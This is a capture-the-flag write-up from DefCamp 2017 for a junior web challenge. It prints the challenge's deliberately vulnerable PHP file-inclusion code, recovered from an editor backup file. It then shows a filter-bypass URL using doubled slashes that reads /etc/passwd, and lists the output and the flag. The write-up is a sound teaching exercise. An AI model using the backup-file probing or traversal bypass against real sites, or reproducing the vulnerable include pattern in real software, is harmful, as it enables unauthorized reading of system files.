 ```yaml
---
layout: post
title: DefCamp CTF Qualification 2017 Writeup [Web]
---
```


Is nano good Challenge? (Junior - 2 pcts.)
--------------------------------




----------


This is our new admin platform interface. Can you test it? 
[Visit website](https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login) 


----------

![alt text]

https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login



from the title of the challenge (nano) , I added ~ to index.php 


https://junior2.dctf-quals-17.def.camp/index.php~ 



i Got the source code of the page 


:

```php

<?php
$page = $_GET["page"];
$type = $_GET["type"];
if (strpos($page, './../') !== false){
	header("Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ");
	die();
}

if (strpos($page, '..././') !== false){
	header("Location: http://leekspin.com/");
	die();
}

if (strpos($page, '%') !== false){
	header("Location: http://www.nyan.cat/");
	die();
}

if (strpos($page, 'fille') !== false){
	header("Location: https://www.youtube.com/watch?v=o1eHKf-dMwo");
	die();
}

if (strpos($page, '/etc/passwd') === 0) {
	header("Location: https://www.youtube.com/watch?v=djV11Xbc914");
	die();
}
# I wonder if I can bypass path traversal restriction by going back and forward within the directorys....
if ($type == ""){
	echo file_get_contents($page.".php");
} else {
	#maybe we need something from the website 
	echo file_get_contents($page); 
}
?>

```



by this source we Got LFI and filtres on $page and conditions , 

/ = //

type = value

 parameters :

https://junior2.dctf-quals-17.def.camp/?type=a&page=//etc//passwd



    DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd: 4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f: c48b33a7972:x:1003:1003::/home/c48b33a7972: c0752d13db4:x:1004:1004::/home/c0752d13db4: 32ff9930a99:x:1005:1005::/home/32ff9930a99: 6c567ea3321:x:1006:1006::/home/6c567ea3321: 13b}:x:1007:1007::/home/13b}: 

flag : 
DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}
